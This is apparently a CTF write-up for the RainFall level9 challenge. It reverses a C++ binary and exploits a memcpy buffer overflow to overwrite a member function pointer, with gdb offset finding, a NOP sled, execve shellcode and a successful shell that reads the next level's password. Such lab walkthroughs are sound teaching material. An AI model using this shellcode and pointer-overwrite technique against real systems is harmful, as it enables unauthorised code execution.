 # Solution

So the first thing that we will find while trying to reverse the program is that this time it's not c but CPP,
so here is the code of the reversed program 

```cpp
class N {
    public:
        int     nb;
        int     (N::*func)(N &);
        char    annotation[100];

        N(int val) : nb(val)
        {
            this->func = &N::operator+;
        }
        int operator+(N &rhs)
        {
            return this->nb + rhs.nb;
        }
        int operator-(N &rhs)
        {
            return this->nb - rhs.nb;
        }
        void    setAnnotation(char *str)
        {
            memcpy(this->annotation, str, strlen(str));
        }
};

int main(int ac, char **av)
{
    if (ac < 1)
        _exit(1);

    N *a = new N(5);
    N *b = new N(6);

    a->setAnnotation(av[1]);
    return (b->*(b->func))(*a);
}
```

So here the exploit is little bit trickier but still rellying on simple concept such as buffer overflow,
so the only twist to the buffer overflow need to this exploit is that we need to overwrite a function pointer,
so it wont point to the function `N::operator+` which is the overload operator on + for the class N,
but instead it will point your shellcode so you can start a shell.


So let's proceed with the creation of the exploit we need first to find how we can overwrite the pointer,
since in the reverse code we can find that only one function is called to write a string from your input, 
we can easily assume that the mistake come from the function named `setAnnotation`

Lets take a look at the definition:

```cpp
void    setAnnotation(char *str)
{
    memcpy(this->annotation, str, strlen(str));
}
```

So we can see it use memcpy on the member `annotation` which is a buffer of size 100 byte,
so memcpy such as strcpy is not safe and can be used to overflow of buffer if the input size is not checked,
so since we can input more then what you except you can overflow and overwrite the member function pointer,
which is what we gonna do first we need to find the offset at which you are starting to overwrite the function pointer.

So let's start `gdb-gef` and try to find the offset value.

```sh
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

So we create a de brujin string to find the offset, then we rerun the program with that de brujin string to find the offset.

```sh
gef➤  r "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab"
```

We find ourselve to segfault perfect (SIGSEGV).

```asm
    0x8048680 <main+140>       mov    eax, DWORD PTR [eax]
 →  0x8048682 <main+142>       mov    edx, DWORD PTR [eax]
    0x8048684 <main+144>       mov    eax, DWORD PTR [esp+0x14]
```

as we can see we segfault trying to deref register eax so we probably overwrite the value eax let's check the value of eax

```sh
gef➤  p $eax
$1 = 0x62616163
```

That's our de brujin string, so now we need to find the offset.

```sh
gef➤  pattern search $eax
[+] Searching for '63616162'/'62616163' with period=4
[+] Found at offset 108 (little-endian search) likely
```

So now lets make a simple test we will run a padding of "A" until 108 and after that we will write 4 B, 4 C, 4 D.
to see if it work as attended and 108 is really the offset.

```sh
gef➤  r $(perl -e 'print "A"x108 . "B"x4 . "C"x4 . "D"x4')
gef➤  p $eax
$2 = 0x42424242
```

So yes inded it work fine after 108 byte of padding you can overwrite the address of the member function pointer inside `a`.
 
So from this now we need to use a shellcode with a nop sled to allow us to launch a shell, the only particularity is that,
instead of using a return address that goes to the nop sled we need first to use another address that will point to the nop sled return address.

Why ? Because we dereference a pointer before meaning that before using the pointer function we use a pointer to access that pointer function,
this is translated in assembly by those instruction where we segfault


```asm
   0x08048680 <+140>:   mov    eax,DWORD PTR [eax]  ; first dereference of the pointer to access the function pointer (this is not overwite value but the default class dereference)
=> 0x08048682 <+142>:   mov    edx,DWORD PTR [eax]  ; second dereference of the pointer function to access to the function stored in edx now. (this is the overwrite value)
   ...                                              ; non important stuff
   0x08048693 <+159>:   call   edx                  ; call the function that was stored inside the member pointer function
                                                    ; So for the exploit edx should be the return address that leads to the nop sled
                                                    ; once this is done we should find ourselve to hit the shellcode and pop a shell.
```

So what do we need to do ?
Well we need to overwrite the return address that will give us an other return address that will point to the nop sled.

We need to break before the call edx instruction and take a look at the register and see if everything is properly set.
So this will look like this:

```sh
gef➤  r $(perl -e 'print "\x90"x104 . "\xd0\xd3\x04\x08" . "\x1c\xd4\x04\x08"') # padding of 104 so the 4 last byte before overwrite will be the other return address to the nop sled
gef➤  p $eax
$3 = 0x804d420                      # eax address (b class variable)
gef➤  x/wx 0x804d420                # deref to the class
0x804d420:      0x0804d41c          # member function pointer
gef➤  x/wx 0x0804d41c               # deref to member function pointer
0x804d41c:      0x0804d3d0          # function address to call
gef➤  x/xw 0x0804d3d0               # call the function
0x804d3d0:      0x90909090          # led to our crafted nop sled + payload
gef➤  p $edx                        # check of edx register before call edx instruction
$4 = 0x804d3d0                      # properly call the right function address. (our nop sled start)
```

So from now we need to add the shellcode we will use the same shellcode used previously,
and we need to reduce the padding by the size of the of the shellcode so the exploit will look like this now

```sh
# Here the addresss changed because when using gdb-gef we are on our machine and not the VM,
# so we need to find the address inside the VM using gdb it's exactly the same process but the address are different.

$(perl -e 'print "\x90"x76 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" . "8\xa0\x04\x08" . "t\xa0\x04\x08";') ```
Now lets try to run this payload !

```sh
level9@RainFall:~$ ./level9 $(perl -e 'print "\x90"x76 . "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" . "8\xa0\x04\x08" . "t\xa0\x04\x08";')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

We have a shell and can get the flag !
